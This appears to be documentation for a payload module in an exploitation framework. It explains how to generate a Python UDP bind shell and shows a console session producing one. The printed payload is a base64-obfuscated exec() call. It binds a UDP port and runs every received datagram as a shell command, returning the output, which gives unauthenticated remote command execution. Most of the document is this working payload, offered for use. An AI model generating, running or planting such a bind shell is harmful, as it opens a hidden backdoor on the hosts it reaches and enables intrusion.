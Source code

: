## Description

Module generates payload that creates interactive udp bind shell by using python. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/python/bind_udp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates python udp bind shell payload

## Scenarios

```
rsf > use payloads/python/bind_udp
rsf (Python Bind UDP) > set rport 4321
[+] rport => 4321
rsf (Python Bind UDP) > run
[*] Running module...
[*] Generating payload
exec('ZnJvbSBzdWJwcm9jZXNzIGltcG9ydCBQb3BlbixQSVBFCmZyb20gc29ja2V0IGltcG9ydCBzb2NrZXQsIEFGX0lORVQsIFNPQ0tfREdSQU0Kcz1zb2NrZXQoQUZfSU5FVCxTT0NLX0RHUkFNKQpzLmJpbmQoKCcwLjAuMC4wJyw0MzIxKSkKd2hpbGUgMToKCWRhdGEsYWRkcj1zLnJlY3Zmcm9tKDEwMjQpCglvdXQ9UG9wZW4oZGF0YSxzaGVsbD1UcnVlLHN0ZG91dD1QSVBFLHN0ZGVycj1QSVBFKS5jb21tdW5pY2F0ZSgpCglzLnNlbmR0bygnJy5qb2luKFtvdXRbMF0sb3V0WzFdXSksYWRkcikK'.decode('base64'))
```
